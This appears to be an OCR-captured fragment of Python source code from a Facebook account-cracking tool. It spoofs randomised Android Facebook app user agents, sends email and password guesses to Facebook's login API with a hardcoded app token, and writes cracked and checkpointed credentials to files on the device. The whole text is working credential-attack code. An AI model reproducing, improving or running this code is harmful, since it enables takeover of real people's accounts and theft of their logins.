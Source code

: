                                 application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (linex; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print(f'\r\r\033[1;32m [NINS-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/AVI-OK.txt','a').write(ids+'|'+pas+'\n')
                                        #cek_apk(session,coki)
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r\x1b[38;5;126m [INNOCENT-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open(f'/sdcard/AVI-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open(f'/sdcard/NINS-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
